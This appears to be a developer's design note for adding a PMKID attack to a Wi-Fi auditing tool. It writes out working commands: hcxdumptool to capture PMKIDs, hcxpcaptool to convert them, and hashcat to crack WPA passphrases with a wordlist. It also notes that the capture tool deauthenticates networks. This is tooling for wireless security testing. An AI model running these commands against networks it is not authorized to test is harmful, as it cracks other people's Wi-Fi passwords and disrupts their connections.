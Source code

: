### PMKID Attack

See https://hashcat.net/forum/thread-7717.html

### Steps

1. Start `hcxdumptool` (daemon)
   * `sudo hcxdumptool -i wlan1mon -o pmkid.pcapng -t 10 --enable_status=1`
   * Should also use `-c <channel>`, `--filterlist` and `--filtermode` to target a specific client
   * Could be a new attack type: `quatrosec.attack.pmkid`
2. Detect when PMKID is found.
   * `hcxpcaptool -z pmkid.16800 pmkid.pcapng`
   * Single-line in pmkid.16800 will have PMKID, MACAP, MACStation, ESSID (in hex).
3. Save `.16800` file (to `./hs/`? or `./pmkids/`?)
   * New result type: `pmkid_result`
   * Add entry to `cracked.txt`
4. Run crack attack using hashcat:
   * `./hashcat64.bin --force -m 16800 -a0 -w2 path/to/pmkid.16800 path/to/wordlist.txt`

### Problems

* Requires latest hashcat to be installed. This might be in a different directory.
   * Use can specify path to hashcat? Yeck...
   * % hashcat -h | grep 16800
   * 16800 | WPA-PMKID-PBKDF2
* If target can't be attacked... we need to detect this failure mode.
   * Might need to scrape `hcxdumptool`'s output
   * Look at `pmkids()` func in .bashrc
   * hcxpcaptool -z OUTPUT.16800 INPUT.pcapng > /dev/null
   * Check OUTPUT.16800 for the ESSID.
* Wireless adapter support is minimal, apparently.
* hcxdumptool also deauths networks and captures handshakes... maybe unnecessarily

